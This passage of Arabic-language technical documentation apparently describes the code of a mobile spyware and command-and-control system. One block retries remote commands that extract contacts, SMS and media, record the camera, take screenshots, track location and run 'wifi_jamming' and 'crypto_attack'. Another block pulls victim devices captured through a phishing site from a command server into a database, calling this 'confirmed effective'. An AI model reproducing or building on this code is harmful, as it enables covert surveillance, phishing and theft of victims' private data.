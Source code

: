 ```python
        except Exception as e:
            logger.error(f"خطأ في معالجة الخطأ: {str(e)}")
            return {
                'success': False,
                'error': f"خطأ في معالجة الخطأ: {str(e)}"
            }
    
    def should_retry_command(self, command: str) -> bool:
        """تحديد ما إذا كان يجب إعادة المحاولة"""
        retryable_commands = [
            'extract_contacts', 'extract_sms', 'extract_media',
            'take_screenshot', 'record_camera', 'get_location',
            'wifi_jamming', 'mobile_attack', 'crypto_attack'
        ]
        return command in retryable_commands
    
    def retry_command(self, device_id: str, command: str) -> dict:
        """إعادة تنفيذ الأمر"""
        try:
            result = command_executor.send_command(device_id, command, {})
            return result
        except Exception as e:
            return {
                'success': False,
                'error': str(e)
            }
```

---

## 7. تحليل الربط مع موقع التصيد
### 7. Analysis of Phishing Site Integration

### ✅ **أ. آلية الربط المؤكدة:**

```python
def import_devices_from_phishing_site(user_id):
    """استيراد الأجهزة من موقع التصيد - مؤكد الفعالية"""
    try:
        # الاتصال بخادم الويب
        web_server_url = get_command_server_url()
        response = requests.get(f"{web_server_url}/api/devices/connected", timeout=30)
        
        if response.status_code == 200:
            devices_data = response.json()
            devices = devices_data.get('devices', [])
            
            imported_count = 0
            for device in devices:
                device_id = device.get('id')
                device_info = device.get('info', {})
                
                # إضافة الجهاز إلى قاعدة البيانات
                if device_manager.add_device_auto(user_id, device_id):
                    imported_count += 1
                    logger.info(f"تم استيراد الجهاز {device_id} للمستخدم {user_id}")
            
            return {
                'success': True,
                'devices_imported': imported_count,
                'total_devices': len(devices)
            }
```